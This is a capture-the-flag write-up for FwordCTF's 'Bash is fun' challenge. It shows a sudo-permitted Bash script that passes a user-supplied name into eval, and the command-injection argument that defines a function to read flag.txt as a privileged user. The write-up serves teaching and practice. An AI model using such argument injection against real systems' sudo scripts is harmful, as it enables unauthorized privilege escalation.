



### Bash is fun
###### Description: Bash is fun, prove me wrong and do some privesc.

---
In this challenge we had to SSH into a box. Once in, we were presented with this:



There are 3 interesting looking files. `welcome.txt` only had the following contents:
```
Welcome to Fword Island Mr user ! You have nothing to do here
```
This isn't relevant to getting the flag. Now we're left with `welcome.sh` and `flag.txt`, which we have to obtain.
Running a `sudo -l`, I saw that `user1` (us) has the permissions to execute `welcome.sh` as `user-privileged`.

 

Now, let's take a look at `welcome.sh`:-

```bash
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
	$name
fi

if [[ $permission -eq 1 ]];then
	echo "You are: "
	id
fi
```

Looking at the script, the answer is obvious. Line 22 has an `eval` command. `eval` expands all the variables and executes the resulting string as a command. Now we have the variable $name in that command, which we have the ability to assign values to using the command line arguments.

So if we run the following command:-

```bash
sudo -u user-privileged ./welcome.sh -n 'myfunc { cat flag.txt; }; myfunc; '
```

The resulting string would become:
```bash
eval "function  myfunc { cat flag.txt; }; myfunc; { sed 's/user/${username}/g' welcome.txt ; }"
```

This will create a function that cats flag.txt and execute the function right after.
Running this, we get the following output:

 

And we have the flag!

**FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}**

Fun fact: This is a reference to the anime "Kuroko no Basket". If you're into anime, check it out! It's a pretty cool sports anime.
